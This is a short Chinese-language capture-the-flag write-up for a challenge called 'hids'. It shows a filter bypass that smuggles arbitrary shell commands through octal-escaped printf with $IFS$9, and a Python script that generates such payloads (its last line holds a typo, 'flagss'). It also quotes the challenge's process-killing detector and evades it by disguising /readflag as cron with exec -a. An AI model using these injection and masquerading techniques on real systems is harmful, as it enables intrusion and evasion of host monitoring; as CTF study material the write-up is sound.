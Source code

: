### hids

过滤了许多，最后发现可以使用

```shell
$(printf$IFS$9"\154\163")
```

来任意执行命令（八进制绕过）。

于是写了一个python文件来生成命令

```python
while True:
    flags = "$(printf$IFS$9\""
    s = raw_input()
    for i in range(len(s)):
        tmp = oct(ord(s[i]))
        flags += "\\"
        if len(tmp) == 4:
            tmp = tmp[1:]
        flags += tmp
    flags += "\")"
    print flagss
```

cat了detect.py文件的内容：

```python
import os,signal

out=os.popen("ps -ef").read()

for line in list(out.splitlines())[1:]:
    try:
        pid = int(line.split()[1])
        ppid = int(line.split()[2])
        cmd = " ".join(line.split()[7:])
        if ppid in [0,1] and cmd in ["/usr/local/bin/python3.8 /home/ctf/web/app.py","/usr/sbin/cron","/usr/bin/tail -f /var/log/cron","/usr/local/bin/python3.8 /detect.py","/bin/sh -c /usr/sbin/cron && /usr/bin/tail -f /var/log/cron"]:
            continue
        os.kill(pid,signal.SIGKILL)
    except Exception as e:
        pass
```

发现只要使/readflag进程ppid为1且进程名字在上述白名单里就不会被kill。

进程名字可以通过exec -a 来设置。后台运行的子进程在父进程被kill掉后，ppid会变。

所以执行

```bash
bash -c exec -a /usr/sbin/cron /readflag > /tmp/flag.txt &
```
